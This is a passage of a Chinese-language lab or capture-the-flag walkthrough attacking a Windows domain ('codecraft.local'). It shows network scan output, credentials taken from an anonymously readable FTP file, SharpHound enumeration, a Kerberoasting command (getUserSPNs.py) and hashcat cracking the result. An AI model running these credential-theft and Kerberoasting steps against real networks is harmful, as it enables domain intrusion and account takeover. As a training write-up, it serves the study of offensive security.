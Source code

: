 ```bash
[*] NetInfo:
[*]172.22.37.29
   [->]WIN-8087
   [->]172.22.37.29
[*] NetInfo:
[*]172.22.37.26
   [->]WIN-8083
   [->]172.22.37.26
[*] 172.22.37.13  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.37.26    WIN-8083.codecraft.local            Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.37.29    WIN-8087.codecraft.local            Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.37.13    [+] DC:DC01.codecraft.local          Windows Server 2016 Datacenter 14393
[+] ftp://172.22.37.26:21:anonymous 
   [->]Management Users.txt
```

首先根据前面的内部通讯录用 kerbrute 跑了一遍 AS-REP Roasting, 不过没啥结果

然后发现 172.22.37.26 ftp 可以匿名登录, 存在 Management Users.txt

```
张颖
运维部
zhangying@codecraft.local
18500005973

User:  zhangying
Group: WIN-8083\Remote Management Users, WIN-8083\Remote Desktop Users
Pass:  OsVhi2FcMK5
```

先用 zhangying rdp 连接到 WIN-8083, 运行 SharpHound 收集域内信息

对 zhangying 进行分析的时候发现 zhangfei 位于 Account Operators 组

![image-20231017204030604](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172040832.png)

然后用 zhangying 的凭据跑了一遍 SPN

```bash
proxychains getUserSPNs.py codecraft.local/zhangying:'OsVhi2FcMK5' -dc-ip 172.22.37.13 -request-user zhangfei
```

![image-20231017204116698](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310172041911.png)

导出 zhangfei 的 SPN Hash, hashcat 跑 rockyou.txt

```bash
hashcat -a 0 -m 13100 zhangfei.hash rockyou.txt
```

密码为 elizabeth
